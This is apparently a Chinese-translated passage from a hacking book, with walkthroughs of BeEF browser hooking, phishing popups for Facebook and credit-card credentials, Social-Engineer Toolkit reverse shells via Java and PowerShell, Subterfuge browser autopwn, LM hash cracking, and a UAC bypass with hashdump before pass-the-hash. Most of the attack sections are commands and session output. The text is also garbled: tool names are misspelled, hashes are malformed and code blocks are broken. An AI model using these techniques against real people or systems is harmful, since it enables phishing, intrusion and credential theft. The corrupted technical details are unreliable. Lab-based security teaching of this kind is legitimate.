要挂钩浏览器，只需双击就会出现一个新标签。每个挂钩浏览器都有多个子标签，如下所示：每个浏览器都有几个常用模块。历史记录显示与此挂钩浏览器相关的最新条目。重要的是，框架的大部分功能是挂钩浏览器。常用模块用于管理 DOM 或执行如利用漏洞之类的任务。每个命令模块都有一个图标，用于指示以下内容：

在“入门教程”部分，你将看到用于操作浏览器的测试链接。我喜欢“高级版本”，因为它看起来像真实的网页。 4. 在我们运行最新 Firefox 浏览器的 XP 系统上，如果我们访问 BeEF 创建的“恶意”页面，我们将看到此屏幕：img/3ef0f51cacb0127e8ad0ea4f248a9fe_115.png

或者如果我们使用 Chrome，则是这个：img/3ef0f51cacb0127e8ad0ea4f248a9fe_116.png

页面显示了一些看起来像 beef 的东西，似乎一切正常。但用户无法得知该特定网页包含浏览器挂钩。浏览器挂钩是一个恶意程序，允许攻击者挂钩并完全接管其控制。好吧，可能没有完全控制，但它给了我们干扰它的力量。

访问一访问页面，挂钩就设置了。注意，用户不需要运行或悬停在任何东西上即可攻击。访问页面就会触发攻击。机器被挂钩后，它们出现在 BeEF 控制面板中：img/3ef0f51cacb0127e8ad0ea4f248a9fe_116.png

现在我们在控制面板中列出了系统，只需点击我们想要攻击的系统，然后从命令部分列出的众多攻击中选择：img/3ef0f51cacb0127e8ad0ea4f248a9fe_117.png

使用这些命令，我们可以从受害者的浏览器中获取信息，甚至更改他们看到的内容。例如，如果我们想对他们进行社交工程攻击并获取他们的 Facebook 凭据，可以进入“社交工程”标签页并点击“漂亮窃取”。然后点击“执行”。

受害者的浏览器上将弹出一个窗口：img/3ef0f51cacb0127e8ad0ea4f248a9fe_117.png

噢不！用户的 Facebook 超时了！

如果用户填写了凭据并点击“*登录*”

```
data:
Sat 29 Jun 2013 16:48:32 GMT-0400 (EDT)
answer=testuser@test.com!ILluvSecurePasswords!
```

用户名：*testuser@test.com* 密码：*ILluvSecurePasswords!*

我们还可以尝试这种类似 Amazon 的攻击来获取信用卡：

您的信用卡详情已过期，请输入新的信用卡凭据继续购物。

支付方式的更改对已下单的用户没有影响。

账户-添加信用卡或借记卡

编辑您的支付方式：

持卡人姓名：

有效期：11 / 2011

卡号：

确认

## BeEF 不远不止发送弹出窗口。你可以获取受害者所在网页的 HTML：

周二 07 02 2013 21:24:08 GMT-0400 (EDT)

```
data:head<meta http-equiv="content-type" content="text/html"
```


```
data:head<meta http-equiv="content-type" content="text/html"; charset="UTF-8"><title>BeEF</title><body style="display:none; background-color:white; width:100%; height:1000px; position:absolute; top:0; left:0;"><script src="http://192.168.56.101:3000/hook.js"></script>
<script>$(function(){function showhamper(){$(showper="+protocol://192.168.56.101:3000/hook.php?" type="javascript"></script>document.write(command);</script src="beef.min.js"></div>
```

data:head<meta http-equiv="content-type" content="text/html"; charset="UTF-8"><title>BeEF</title>

<div id="Butcher">欢迎来到屠宰场！查看我们的肉类。请订阅我们的邮件列表！</div><div class="normal"><button type="button" onclick="showper()">我的肉类朋友!</button>&nbsp;<button type="button" onclick="showper()">你的饼</button></div>

```

然后通过实时更改页面上的任何链接，在用户完全不知情的情况下，将他们引导到我们想要的地方。

这是我们将所有链接指向纽约国家队网站后的页面查看：

```

data:head<meta http-equiv="content-type" content="text/html"; charset="UTF-8">

<a href="http://dallasboys.com/Shell/">壳</a>

<a href="http://dallasboys.com/Slashdot/">首页</a>

<a href="http://dallasboys.com/hackers.org homepage/">首页</a>

```

当然，攻击者通常不会将他们发送到体育网站，但最可能是一个恶意网站，比如 Amazon 或 Facebook。

我们还可以发送自定义 JavaScript，甚至将其与 Metploit 结合以尝试获取远程 shell。

## 结论

BeEF 比仅仅发送弹出窗口要功能得多。一旦你掌握了，它非常有意思而且相当容易使用。

这些攻击根据成功的可能性进行了颜色编码。你可能仍然想尝试它们，因为我注意到某些运行不良好的代码有时会有效。

我注意到较新的浏览器似乎阻止了一些攻击，但 XP 仍然是开放的，可以针对它进行操作。

此类攻击的最佳缓解措施似乎是最新的 Windows 系统和浏览器版本。如果可以，请更新或替换您的 Windows 系统，特别是当它们连接网络时。

Windows 7 和 8 的基础安全性比 Windows XP 好得多。

最后，始终运行像 Firefox 插件“NoScript”之类的脚本拦截器，并且不要点击或打开未自来电子邮件和社交媒体消息中的链接和附件。

# 第四部分 - 社会工程学

## 第13章 – 社会工程学

### 资源

- http://www.social-engineer.org/

## 引言

社会工程学是一种通过操纵他人获取虚假信任，从而从他们那里获取信息、访问权限或数据的艺术。社会工程学实际上是对人类进行黑客。

精通社会工程学的黑客会伪装成别人、需要帮助的人，甚至是权威人士，诱导你帮助他们，或者让他们获得安全系统或区域的访问权限。

让我们来看一些例子：

- 你正要进入你的安全数据中心。当你靠近门口时，一个满抱箱箱的快递员也到达了门口。你会做什么？大多数人可能不会多想，就会为那个负重不堪的怜人推开门并让他进去。但如果他不是真正的快递员，只是想进入你的安全数据中心呢？你让他让他进去了。

- 你正坐在工位上，一个身穿衬衫、领带、拿着写字板和工具箱的人走了过来。他说他正在进行系统升级并需要访问你的系统。由于快到午饭时间了，听起来你将获得一段较长的午餐时间。你问是否应该关闭系统，他回答说他只需要先检查几件事。你起身走向食堂。就这样，你给了他访问你系统的权限。

- 你是一家大公司的 CEO。某天，你收到一封从刚签署了大交易的公司寄来的包裹。这是你职业生涯中最大的一笔交易，当地所有的报纸和电视电台上都有报道。你打开包裹，发现一封来自该公司的感谢信，感谢你达成业务协议。信中还提到你迫不及待地检查你的高管 Wi-Fi 网络进行尝试，你确实这样做了。公司并没有给你寄过平板电脑，而是发送了一个连接到你高管网络的工程系统。

- 你收到了公司 IT 经理的一封邮件。他们正在安装一些新软件，需要你安装新的驱动程序。他们将软件包作为附件发送，并提供了完整的安装说明。你会怎么做呢？这封邮件实际上并非来自你的 IT 经理，你刚刚给了远程黑客对你工作站的控制权。

他们可能会利用当地的习俗、礼仪，利用人类的同情心，或者试图恐吓员工以得到他们想要的东西。他们可能完全不做这些直接接触的行为，而是翻找你们公司的垃圾桶，通过阅读你使用的在线论坛来搜寻内部系统的线索。

或者，他们可能攻击社交媒体网站，伪装成与你有业务往来的公司，或者伪装成寻找新人才的人头公司。

这些只是社会工程师试图获取目标网络访问权限或获取信息的几个例子。

## 社会工程防御

如此，培训员工识别并抵抗社会工程攻击。你可以教员工注意哪些特征以及如何报告可疑活动。制定相关政策来防止此类攻击也是重要的。在本节中，我们将查看一些测试组织防御能力的工具。

## 第14章 – 社会工程学工具包 (SET)

## 引言

社会工程学攻击是渗透网络最常见的方式之一。既然可以欺骗用户，为什么要花几天或几个月尝试绕过防火墙呢？社会工程学工具包（SET）是一个强大的工具，允许你创建和部署社会工程学攻击。

## SET 的 Java PYInjector 攻击

到目前为止，我们只是发送了一封可能重定向某人的假邮件。但如果我们制作一个提供陷阱脚本的虚假网站呢？如果用户允许脚本运行，我们就能获得远程 shell。

PYInjector 攻击利用 Java 结合基于 PowerShell 攻击的反杀病毒能力。我们将使用 SET 创建一个虚假网站，提供一个带有阱的 Java 应用程序。如果用户允许程序运行，我们就能获得对系统的完全远程会话。

在本示例中，我们将使用 Windows 7 系统作为“目标”。

现在，如果我们进入一台“受害者”机器并访问我们 Kali “攻击者”机器的 IP 地址，我们将看到这些内容：

噢看，网站想要运行一个 Java Applet。注意弹出窗口上的名称显示为“Applet 已通过验证（安全）”。

真令人令人安心啊，如果“受害者”允许此 Java 脚本运行，那么不仅是一个，而是会有多个远程会话将连接到我们的攻击机器。如下所示所示：

```
msf exploit(handler) > [2] Metaspreter session 2 opened (192.168.1.226:192

192.168.1.219:49353) at 2013-09-05 12:21:17 -0400

Metaspreter session 3 opened (192.168.1.226:553 -> 192.168.1.219:49354) at 2013-09-05 12:21:17 -0400

Metaspreter session 4 opened (192.168.1.226:22 -> 192.168.1.219:49351) at 2013-09-05 12:21:17 -0400

Metaspreter session 5 opened (192.168.1.226:443) -> 192.168.1.219:49352) at 2013-09-05 12:21:17 -0400

sessions
```

随后我们将获得一个 `msf` 命令提示符。从这里，我们使用 `sessions` 命令可以看到任何已创建的打开远程会话：

```
msf exploit(handler) > sessions

Active sessions

| Id | Type | Information | Connection |
| :--- | :--- | :--- | :--- |
| 1 | metaspreter x86/win32 | Client:P...Client@CLIENT-PC | 192.168.1.226:449 -> 192.168.1.219:49348 (192.168.1.219) |
| 2 | metaspreter x86/win32 | Client:P...Client@CLIENT-PC | 192.168.1.226:25 -> 192.168.1.219:49352 (192.168.1.219) |
| 3 | metaspreter x86/win32 | Client:P...Client@CLIENT-PC | 192.168.1.226:53 -> 192.168.1.219:49349 (192.168.1.219) |
| 4 | metaspreter x86/win32 | Client:P...Client@CLIENT-PC | 192.168.1.226:22 -> 192.168.1.219:49351 (192.168.1.219) |
| 5 | metaspreter x86/win32 | Client:P...Client@CLIENT-PC | 192.168.1.226:443 -> 192.168.1.219:49352 (192.168.1.219) |
msf exploit(handler) > 
```

使用 `sessions -i` 和会话编号可以连接到任何会话。

```
msfexploit(handler) > sessions -i 1
[*] Starting interaction with 3...
meterpreter > shell
Process 3316 created.
Channel1 created.
Microsoft Windows (Version 6.1.7601)
Copyright (C) 2009 Microsoft Corporation. All rights reserved.
C:\Users\Client\Desktop>
```

一旦连接，你可以使用任何内置的 Meterpreter 命令，或者使用 Linux 命令来浏览远程 PC，或者简单运行 `shell` 就会给你一个远程窗口命令 shell：

```
msfexploit(handler) > sessions -i 1
[*] Starting interaction with 3...
meterpreter > shell
Process 3316 created.
Channel1 created.
Microsoft Windows (Version 6.1.7601)
Copyright (C) 2009 Microsoft Corporation. All rights reserved.
C:\Users\Client\Desktop>
```

这就了，受害者方面的一个错误选择，正如你所看到的，我们有了一个完整的远程会话。

## 社会工程工具包：PowerShell 攻击向量

基于 Java 的 PowerShell 攻击很棒，但如果目标没有运行 Java，或者我们无法欺骗他们访问我们的 SET 页面怎么办？另一种社会工程尝试是欺骗用户运行我们发送给他们的文件。

所以，让我们来看如何创建一个 PowerShell shellcode 文件并将其发送到目标。如果我们能欺骗目标运行 shellcode，或者让它运行，我们就获得了与该机器的远程连接。在本节中，我们将使用 SET 的 PowerShell Attack 创建可以运行的 PowerShell 脚本，目标系统将连接回我们的 Kali 系统。我们将启动 SET 来监听这些接入连接。

- 启动 SET 并选择选项 1，`Social Engineering-Attacks`。
- 选择选项 1，`PowerShell Attack`。
- 下一步选择数字 1，`PowerShell Alphanumeric Shellcode`。
- 现在输入 Kali 系统的 IP 地址和你想使用的端口。最后 SET 询问是否要创建监听器，默认端口 443 是可以的。当受害者运行代码时，SET 将准备好接受远程连接。在提示符处输入`yes`。

监听器 IP 地址: 192.168.1.226

现在我们只需要将漏洞代码发送给受害者。SET 创建漏洞代码并放置在 `/root/reports/powershell` 目录。保持 SET 窗口打开并打开另一个终端。导航到 powershell 目录，你将在文件中看到 PowerShell 注入代码，示例中为 `x86_powershell_injection.txt`。你可以`cat`文件来显示其内容：

```
$ cd /root/reports/powershell/
$ cd /root/reports/powershell/
$ cat x86_powershell_injection.txt
$ powershell -nop hidden -nonenc ...
```

如果 Windows 系统运行了代码，将会打开一个到你 Kali 机器的远程会话。

```
C:\Windows\System32\cmd.exe
Microsoft Windows [Version 6.1.7600]
Copyright (C) 2009 Microsoft Corporation.
C:\Users\Client>powershell -nop hidden -nonenc ...
```

或者你也可以简单地使用`Veil`程序（参见“使用 Veil 绕过杀毒软件”章节），它的实现原理基本上相同。

## 结论

如今几乎每台 Windows 设备上都安装了 PowerShell，而且许多杀毒软件无法检测到这类攻击，这使得它们非常强大。如如下所示，我将我们的 PowerShell 注入代码上传到了 VirusTotal，它没有检测到任何恶意内容：



很可能，你需要诱骗用户运行代码，攻击才能成功。在打开来自电子邮件和社交媒体的文件和链接时，请务必非常小心。运行如“NoScript”之类的浏览器拦截脚本，以防止代码从访问过的网站自动运行。此外，还要非常警惕短链接，尤其是 Twitter 上使用的短链接。最近我在 Twitter 上看到一个指向恶意软件的短链接！

## 更高级的攻击

花时间研究 SET，并查看它为攻击目标系统提供的众多选项。你可以使用 SET 创建恶意的 CD/DVD 和 USB 介质（用于创建恶意介质并将其留在停车场等）、一系列基于 Arduino 的攻击、Microsoft SQL 暴力破解、无线访问点攻击、群发邮件、QR 码攻击以及我们未涵盖的许多社会工程攻击。Track 菜单对于任何使用 PXE 启动和镜像的企业来说特别值得关注，参见：http://www.trustedsec.com/files/Owning_Rule_all.pdf

你还 SET config 中设置许多选项来修改功能。该文件位于 `/etc/share/set/config`。社会工程工具包（Social Engineering Toolkit）对于任何安全测试团队都是一个真正强大且丰富的工具。

## 第 15 章 - 欺骗 (Subteruge)

### 使用 subteruge 进行自动浏览器攻击

在本节中，我们将继续讨论社会工程类攻击。我们将使用名为 subteruge 的程序创建一个伪 Web 服务器，自动攻击任何尝试连接的浏览器。这模拟了黑客如何通过让访问恶意网站来获取目标机器的权限。一旦客户端访问此 Web 服务器，subteruge 就会通过 Metasploit Framework 的 BrowserPwn 模块自动运行一系列浏览器攻击。如果一个（或多个）攻击成功，我们通常可以获得客户端系统的完全远程 shell。

### 开始吧

首先，我们需要安装 subteruge。Subteruge 存在于 Backtrack 5 中，但请切换到 Kali，因为有其他类似的程序。从在线论坛来看，subteruge 可能会在某时候被回来。但安装并不困难。让我们下载 subteruge 吧：

1. 下载 subteruge (http://code.google.com/subteruge/downloads/)
2. 将其保存到根目录。
3. 现在使用 `tar -xvf` 命令解压文件。

```bash
root@kali:~# ls
Desktop SubterugeBeta5.0.tar.gz
root@kali:~# tar -xvf subterugeBeta5.0.tar.gz
```

4. 现在进入 subteruge 目录并使用 Python 安装：

```bash
root@kali:~# cd subteruge
root@kali:~/subteruge# sudo python install.py
```

5. 将显示图形化安装界面。点击“Full Install”，然后点击“Install”：



6. 当安装程序完成后，点击“Finish”。



现在运行 subteruge：
```bash


root@kali:~$

root@kali:~# `subteruge`

```
8. 现在你将看到一个显示服务器已启动并运行的屏幕。
```



9. 现在打开 Iceasel 并访问 `127.0.0.1:80`。你将看到 `subteruge` 的主界面：



注意，这里有一个显示用户名和密码的地方、一个 Modules 和 Settings 菜单以及一个 Start 按钮。我们可以执行的几种不同攻击都在 Modules 菜单下。我们可以通过 Settings 菜单修改 `subteruge` 的功能，而 Start 则启动某些攻击。

## 浏览器自动破解 (Browser Autopwn)

让我们尝试 `Browser_Autopwn` 攻击。`Subteruge` 会启动一个恶意服务器，并加载大量的不同的客户端攻击，并将它们用于任何尝试连接的客户端。

1. 点击“Modules”菜单。
2. 点击“HTTP Code Injection”图标。
3. 我们将看到插件设置（Plugin Settings）。保持“browser_autopwn”和“IFrame Injection”的默认值并点击“Apply”。

`HTTP Code injection Module` 插件设置允许用户直接向目标的浏览会话注入载荷（payload）。载荷可以是简单的 javascript/HTML 注入到浏览器漏洞的任何内容。你甚至可以编写自己的注入。



4. `Subterfuge` 自动打开一个窗口并启动 Metasploit。


5. Metasploit 攻击已就绪：

（此处后续为重复代码块，未予翻译）

# 第五部分 - 密码攻击

## 第16 章 – 破解简单的 LM 哈希值

### 引言

微软对 Windows XP SP3 和 Office 2003 的支持将于 2014 年 4 月 8 日正式结束。根据某些报告，由于 Windows XP 仅剩一年的支持，仍有近 40% 的电脑用户在使用它。

这意味着有大量的 Windows XP 系统仍然在关键业务岗位上运行。这些系统是以加密的形式存储的。计算机有多种不同的方式来加密密码。最安全的方法之一包括对密码进行“加盐（Salting）”。基本上，这意味着使用一个数字（或盐）并将其纳入哈希处理过程中，以确保没有两个密码是相同的。

如果不使用盐（如在微软 LM 系统上），你可以破解一个哈希值；所有使用相同密码的用户都具有相同的哈希值。因此，你只需要获取该哈希值并与已知的哈希值进行比较，如果匹配成功，你就得到了密码！

许多 Windows XP 系统使用 LM 哈希来保护其密码。这是一种非常老旧且过时的密码哈希存储方法。这种哈希过程是为 Windows NT 之前的系统创建的。

基本上，在使用 LM 哈希的系统中，任何 14 个字符或少的密码都会被转换为全大写，然后分为两个 7 字符的密码。每个部分然后被加密并组合成最终的哈希。

同样，没有使用盐，所以基本上如果你能从系统中获取 LM 哈希，你只需要与其他已知的哈希值进行查找表对比，即可获得实际密码。

一个典型的 Windows 哈希看起来像所示：

```
ac93c8016d14e75a2e9b6bb9e2cbb6:8516cd0838d1a4dfd1ac3eeb9811350
```

LM 哈希位于冒号左侧，NHash 位于右侧。

### 破解 LM 密码

有一些网站允许你输入 Windows LM 哈希，它将返回所使用的密码（如果它在它的查找表中）。

一家名为 Objectif Sécurité（Ophcrack 的创建者）的瑞士公司开发了一种在 SSD 上使用彩虹表的破解技术。他们提供了该技术的在线演示，可以在几秒钟破解许多 LM 密码。

> (http://www.objectif-securite.ch/en/ophcrack.php)

我们将尝试几个哈希值看看它能做什么。让我们从一个简单的开始。这里是 XP 机器上的 Administrator 密码哈希：

**Hash:** `aad3b435b51404eeaad3b435b51404ee:31d6fe0d16ae931b73c59d7e0c0890`

将此输入我们的 Objectif 工具，我们生成了：



看起来 Administrator 没有设置密码，这不太好……

好吧，那个不是十四个字符，让我们尝试一个复杂的。

**Hash:** `17817c9fb9d272af44df1cb95cae33:6bcec2ba2597f089198735afaea300d4`

以及响应：



哇！这只用了 4 秒，而且是一个不错的密码。

让我们再尝试一个带有更多特殊字符的：

**Hash:** `d4b3b6605abec1a16a794128df6bc4da:14981697ef5bd52672236c5fdb74af6`


最后：

**Hash:** `747747dc62e4578d18aeb7cab71d6:43ccc2170b7a4ef851a622ff1560555`


非常印象深刻，在这次测试中仅用了四到七秒就破解了几个14位字符的复杂密码。

诚然，这些是 Windows LM 哈希，而不是更安全的 Windows 7/Server 2008 NTLM 哈希。

但是，我相信随着破解速度的提高，仅依靠密码可能不再是一个良好的安全措施。许多公司和政府设施正在从仅使用密码转为使用双重认证方法。

生物识别和智能卡在安全设施中变得越来越流行。

### 不确定你拥有的是哪种哈希？

有多种类型的哈希。有时你可能检索到密码哈希，但可能无法确定它是什么类型。`Hash ID` 将识别你提供的哈希类型。

只需运行 `Hash ID` 并输入哈希。

程序将检查它并返回你拥有的最可能的哈希类型，以及不太可能的类型。

从 Kali 菜单中：

`Kali Linux/密码攻击/离线攻击/Offline Attacks`

只需运行 `Hash ID` 并输入哈希。


```
ac93c8016d14e75a2e9b6bb9e2cbb6:8516cd0838d1a4dfd1ac3eeb9811350
```

LM 哈希位于冒号左侧，NHash 位于右侧。


```
aad3b435b51404eeaad3b435b51404ee:31d6fe0d16ae931b73c59d7e0c0890
```


```
17817c9fb9d272af44df1cb95cae33:6bcec2ba2597f089198735afaea300d
```


```
d4b3b6605abec1a16a794128df6bc4da:14981697ef5bd52672236c5fdb74af6
```

```
747747dc62e4578d18aeb7cab71d6:43ccc2170b7a4ef851a622ff1560555
```

### 在 Kali 中查找哈希

手动查找哈希很有趣，但最好在 Kali 内部完成。

> (http://www.objectif-securite.ch/en/ophcrack.php)

### 结论

在本节中，我们了解到计算机并不以明文存储密码。密码以某种方式加密，并且生成的哈希被记录下来。

我们还了解到 LM 哈希并不安全，可以通过查找表（有时被称为“彩虹表”）轻松破解。

如果不在数据库中找不到 LM 哈希，则需要破解程序。你可以关闭 LM 哈希，但安全研究人员发现许多系统为了兼容性仍然在使用它们（即使在关闭的情况下！）。

## 第17 章 – 传递哈希攻击

### 引言

在上一节中，我们查看了基于 LM 的密码有多不安全，但基于 NTLM 的密码呢？

Windows 系统通常将 NTLM 哈希与 LM 哈希一起存储，后者更安全。正如我提到的，LM 哈希可以关闭（或使用超过 14 个字符的密码）。但许多人问我，如果只有 NT 哈希，访问用户账户还需要多长时间？

这是一个很好的问题，答案是，如果满足了某些情况并使用了特定的技术，所需的时间相同。

让我解释一下，如果你能从计算机获取 LM 或 NT 哈希，你就不需要破解它们。真的不需要。有时你只需要直接取哈希作为令牌来访问系统。这种技术被称为**传递哈希攻击（Pass the Hash）**。

传递哈希攻击并不新鲜，在去年举行的“BlackHat USA”会议上有一场演讲，《传递哈希 15 年后》。这应该让你知道这种攻击已经持续了多久。

尽管某些此类攻击在更新后的系统上可能不再有效。杀毒软件和打过补丁的 Windows 系统正在捕获某些机制并阻止它们。设置为使用 NTLM2 或 Kerberos 的网络也能防御这类攻击。

此外，Windows 7 中的用户账户控制（UAC）功能可以阻止许多在 XP 系统上仍然有效的传递哈希攻击。但如果禁用了 UAC（正如我们在本节后面所示），它仍然有效。

但仍然值得查看一些传递哈希技术。

### 使用 Psexec 传递哈希

多年来传递哈希的常用方法之一一直是 `psexec` 命令。

在教程中，我们将从通过 Meterpreter 拥有远程会话开始。

# 激活会话

```
| Id | Type | Connection |
| :--- | :--- | :--- |
| 1 | meterpreter x86/win32 | WIN-ANLOLTDTQU/Ralf @ WIN-ANLOLTDTQU 192.168.198.134:443 -> 192.168.198:49268 (192.168.198,132) |
```

```sf exploit(handler) -> sessions -i 1
[*] Starting interaction with 1...
meter > getuid
Server username: WIN-ANLOLTDTQU/Ralf
meterpreter >
```

如你所见，我使用了“sessions”命令来查看激活会话。只有一个会话，所以我使用“sessions -i 1”命令启动了一个激活会话。

我成功连接到了 Windows 7 会话，最后输入了“getuid”来显示登录系统的用户，在本例中是“Ralf”。

现在让我们获取系统级权限，以便我们可以导出哈希值。这可以通过运行书中之前讨论过的 Bypass UAC 模块简单实现，但我将在这里展示这些步骤：

```
meterpreter > background
[*] Backgrounding session 1...
sf exploit(handler) -> use exploit/windows/local/bypassuac
sf exploit(bypassuac) -> set session 1
sf exploit(bypassuac) -> run
[*] Started reverse handler on 192.168.198.134:444
[*] UAC is Enabled, checking level...
[*] UAC is set to Default
[*] Bypass UAC can bypass this setting, continuing...
[*] Checking admin status...
[*] Administrators group! Continuing...
[*] Uploading the UAC executable to the filesystem...
[*] executing 73802 bytes being uploaded.
[*] Uploaded the agent to the system.
[*] Transfer (73802 bytes) to 192.168.198:132
[*] Session session opened (192.168.198.134:4444) -> 192.168.132:49264
2013-09-23 14:33:42 -0409
meterpreter >
```

很好，用户 Ralf 是管理员，B UAC 函数起作用了。它自动进入了会话 2。现在我们只需要运行“getsystem”命令来获取系统级凭据。

```
meterpreter > getsystem
...got system (via technique 1).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```


如所示，再次通过`getuid`命令验证了我们确实是`System`用户。

现在只需输入`hashdump`来恢复系统哈希：

```
meterpreter > run post/windows/gather/hashdump
```

此列表将包含密码提示和重要的哈希值：

```
Administrator:500aa3a3b3b55104e4ea3d4b53b51404e3d3c6fe0d1f6a931b73c59d7e0c890::

Guest:501aa3a3b3b55104e4ea3d4b53b51404e3d3c6fe0d11a6a931b73c59d7e0c890::

Fred:1000aa3a3b3b55104e4ea3d4b53b51404e3d3c6fe0d1f06a931b73c59d7e0c890::

Alice:1001aa3a3b3b55104e4ea3d4b53b51404e2e4bd83a056289935aea3228977b20::

Bob:1002aa3a3b3b55104e4ea3d4b53b51404e2de6e07a289a721501d115263f5b89dbe::

George:1003aa3a3b3b55104e4ea3d4b53b51404e3d3c6fe0d17a9b1069208a4ccb6b9771ad6e7::

